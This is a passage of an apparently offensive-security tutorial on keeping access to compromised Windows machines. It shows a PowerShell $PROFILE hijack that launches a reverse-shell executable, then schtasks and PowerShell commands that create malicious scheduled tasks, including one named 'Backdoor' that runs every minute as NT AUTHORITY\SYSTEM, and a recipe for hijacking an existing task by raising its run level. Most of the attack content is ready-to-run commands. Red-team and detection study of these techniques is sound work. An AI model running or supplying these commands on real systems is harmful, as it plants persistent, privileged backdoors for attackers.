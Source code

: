 ![](https://hadess.io/wp-content/uploads/2023/11/image-31-1024x290.png)

### How Does it Work ? (POC)

echo “C:\Windows\revshell.exe” > $PROFILE

- -NoProfile our desired payload will get executed , thus providing us persistence access.

# Persistence Using Schedule Task

**Scheduled tasks** are a feature of Windows that allows users to automate tasks by scheduling them to run at specific times or intervals. But attacker can abuse this feature of windows to gain persistence access to machine, by setting the time when the executable should be run. There are three common type of persistence access that attacker can use : ### Regular User Task Based Persistence

Regular user based persistence is achieved by scheduling a task to run under the credentials of a regular user. This type of persistence is less common than elevated user based persistence, as it is more easily detected and removed. Here is How to achive that :

# Create the scheduled tasks to run once at 00.00  
schtasks /create /sc ONCE /st 00:00 /tn “My Malicious Task” /tr C:\Temp\revshell.exe  
# Force run it now !  
schtasks /run /tn “My Malicious Task”

### Elevated user Based Persistence

Elevated user based persistence is achieved by scheduling a task to run with elevated privileges, such as those of an administrator or NT authority SYSTEM . This type of persistence is more dangerous than regular user based persistence, as it allows the task to perform actions that a regular user cannot, such as modifying system settings or accessing sensitive data. eg: – Using cmd

```
schtasks /create /sc minute /mo 1 /tn "eviltask" /tr C:\tools\shell.cmd /ru "SYSTEM"

$A = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c C:\Windows\revshell.exe"
$T = New-ScheduledTaskTrigger -Daily -At 9am
# OR
$T = New-ScheduledTaskTrigger -Daily -At "9/30/2020 11:05:00 AM"
$P = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$S = New-ScheduledTaskSettingsSet
$D = New-ScheduledTask -Action $A -Trigger $T -Principal $P -Settings $S
Register-ScheduledTask "Backdoor" -InputObject $D

schtasks /query /tn "EXISTING_TASK" /xml > out.xml
# now modify the <Principals> section in xml file with <RunLevel>HighestAvailable</RunLevel>
# now delete the orginal task and replace it with modified version
schtasks /delete /tn "EXISTING_TASK" /f
schtasks /create /tn "EXISTING_TASK" /xml out.xml
```
